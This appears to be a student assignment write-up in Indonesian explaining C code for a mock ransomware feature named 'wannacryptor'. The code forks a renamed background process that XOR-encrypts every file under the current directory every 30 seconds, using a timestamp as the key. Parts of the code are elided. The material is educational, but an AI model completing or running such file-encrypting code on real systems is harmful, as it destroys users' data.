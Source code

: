 ### Penyelesaian 3-B

**Fitur 1: `wannacryptor` (Encryptor)**
```c
void start_wannacryptor(int argc, char *argv[]) {
    pid_t pid = fork();
    if (pid < 0) return;

    if (pid == 0) {
        rename_process("wannacryptor", argc, argv);
        while (1) {
            time_t key = time(NULL);
            recursive_encrypt(".", key);
            sleep(INTERVAL);
        }
        exit(0);
    } else {
        wannacryptor_pid = pid;
    }
}
```
**Penjelasan:**
- Proses `wannacryptor` dibuat dengan `fork().`
- Child akan rename diriniya menjadi `"wannacryptor"` agar terlihat di proses tree.
- Setiap 30 Detik:

`key = time(NULL);` -> ambil timestamp sekarang sebagai kunci XOR.
`recursive_encrypt(".", key);` -> enkripsi seluruh file dan folder mulai dari direktori saat ini (`.`).

-`sleep(INTERVAL);` -> tunggu 30 detik dan ulangi.


-fungsi `recursive_encrypt()`:
```c
void recursive_encrypt(const char *path, time_t key) {
    DIR *dir = opendir(path);
    if (!dir) {
        encrypt_file(path, key);
        return;
    }
    ...
}
```
- Jika path adalah file biasa, maka panggil `encrypt_file().`
- Jika folder maka buka semua entry, dan lakukan rekursi.

-fungsi `encrypt_file()`:
```c
void encrypt_file(const char *path, time_t key) {
    FILE *file = fopen(path, "rb+");
    ...
    xor_encrypt(buffer, size, key);
    ...
}
```
- Membuka File sebagai binary
- Membaca seluruh isi file ke dalam buffer
- Melakukan enkripsi dengan `xor_encrypt()` lalu menulis kembali ke file
